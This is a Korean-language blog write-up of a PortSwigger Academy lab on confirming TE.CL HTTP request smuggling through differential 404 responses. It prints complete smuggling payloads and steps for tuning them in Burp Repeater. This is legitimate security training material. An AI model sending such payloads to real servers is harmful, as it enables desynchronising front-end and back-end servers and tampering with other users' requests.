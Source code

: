 ```yaml
---
layout: post
title: "Burp Academy-HTTP Request Smuggling 관련 취약점: Confirming TE.CL vulnerabilities using differential responses"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, HTTP Request Smuggling]
toc: true
last_modified_at: 2024-01-09 09:00:00 +0900
---
```


# 개요
- HTTP Request Smuggling 취약점 문제이다. 
- 문제 주소: https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses
- 취약점 설명페이지1: https://portswigger.net/web-security/request-smuggling
- 취약점 설명페이지2: https://portswigger.net/web-security/request-smuggling/finding
- 난이도: PRACTITIONER (보통)

# 취약점 개요
- Burp Academy 에서는 HTTP Request Smuggling을 탐지하는 단계를 세 단계로 나눠서 가르치고 있다. 
- Indentifying과 Confirming, Exploiting이 그 것이다. Indentifying은 식별, Confirming은 확신정도로 이해하면 되겠다. Exploiting은 취약점을 악용하는 단계다.
- Indentifying에서는 타임아웃이 발생하는가를 주로 보고, Confirming에서는 실제로 HTTP요청을 밀반입해서 밀반입한 요청에 대한 HTTP응답이 돌아오는지를 본다. (따라서 오리지널 요청과 밀반입용 요청은 각각 다른 HTTP응답코드가 돌아오는 요청이어야 한다.)
- 예를 들어, TE.CL Confirm용의 HTTP요청은 다음과 같이 생겼다. 

```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0

```

- 프론트엔드는 TE를 보므로 마지막 `0\r\n\r\n`까지를 하나의 요청으로 인식한다. 백엔드에서는 CL을 보므로 4바이트인 `7c\r\n`까지를 첫번째 요청으로 인식한다. `GET /404` 부터는 별도 요청으로 인식해서 다음순서의 HTTP 요청에 대해서 404응답을 회신한다. 
- 404응답이 돌아오면 스머글링이 성공했다고 확신(Confirm)할 수 있다.

# 랩 개요
이 랩에서는 HTTP Request Smuggling 컨펌용 요청(TE.CL패턴)을 사용하는 것을 실습한다. 

- 이 랩은 프론트 엔드 서버와 백엔드 서버로 구성되어 있다. 백엔드서버는 chunked encoding(TE헤더)를 지원하지 않는다. 
- 랩을 풀려면 백엔드 서버에게 HTTP요청을 밀반입해서, `/` 요청을 보냈을 때 404응답이 돌아오도록 하면 된다. 

```
This lab involves a front-end and back-end server, and the back-end server doesn't support chunked encoding.

To solve the lab, smuggle a request to the back-end server, so that a subsequent request for / (the web root) triggers a 404 Not Found response.
```

# 도전
1. 취약점 설명에 있는 TE.CL Confirm용 페이로드를 그대로 사용해보자. 다음과 같이 된다. 

```http
POST / HTTP/1.1
Host: 0a4c000d04892e60825ee26500a0001a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: 0a4c000d04892e60825ee26500a0001a.web-security-academy.net
Content-Length: 144

x=
0

```

※ **TE.CL 요청에서는 CL헤더의 값이 업데이트되지 않는 것이 중요하다.** Repeater에서 Update Content-Length 옵션을 끈다. 

2. 요청을 보내면 왜인지 Read 타임아웃이 발생한다. 

![HTTP 요청 스머글링 시도](/images/burp-academy-hrs-5-1.png)

3. GET 부분을 따로 보내본다. 그러면 GET 요청시는 Body가 있으면 안된다는 응답이 돌아오는 것을 볼 수 있다. 

![HTTP 요청 스머글링 시도](/images/burp-academy-hrs-5-2.png)

4. 정답을 참고해서 스머글링용 요청의 메소드를 GET에서 POST로 변경한다. Host헤더도 없앤다. 요청을 보내보면 처음엔 200응답이, 두번째는 404응답이 되는 것을 볼 수 있다. 

![HTTP 요청 스머글링 시도](/images/burp-academy-hrs-5-3.png)

5. 웹 브라우저를 리로드하면 문제가 풀린 것을 알 수 있다. 

![풀이 성공](/images/burp-academy-hrs-5-success.png)
